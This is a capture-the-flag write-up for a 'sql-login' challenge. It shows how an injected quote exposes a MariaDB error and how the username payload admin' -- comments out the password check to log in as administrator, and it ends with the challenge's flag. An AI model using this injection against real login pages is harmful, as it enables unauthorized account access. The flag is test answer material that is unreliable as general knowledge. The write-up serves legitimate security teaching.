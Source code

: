 # sql-login:
## Description:
On this web page we are presented with only a login terminal and the text

---

Welcome to my first web page!</br>
Only administrators are allowed to see the secrets of this web page

---

The name of this task hints towards SQL injection so we will start by checking if the web page is vulnerable to SQL injections. By typing ``'";`` in the username field and pressing enter we get the following error code: 
```
Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '"; ' AND password = 'dwd'' at line 1 in /var/www/html/login.php:41 Stack trace: #0 /var/www/html/login.php(41): mysqli_query(Object(mysqli), 'SELECT * FROM U...') #1 {main} thrown in /var/www/html/login.php on line 41
``` 

We now know SQL injection is possible and want to try to login.</br>
Since we are given the information that only administrators are allowed to see the secrets of the page we have to try and login as an administrator. Knowing the username of the administrator is not always easy, however guessing *admin* is a good place to begin. Since we do not know the password we need to somehow make the SQL query ignore the password field. This can be done in many ways, but by commenting out everthing after the username is a simple solution. We therefore type in the following:
```
username: admin' -- 
password: whatever
```
(make sure to have a space after *--* in the username)</br>
Which will result in the following SQL query:
```sql 
SELECT * FROM Users WHERE username = 'admin' --  AND password = 'whatever'
```

And we will end up with the flag displayed on the web page
```
KID20{sql_inj3cti0n_i5_alw4ys_fun}
```
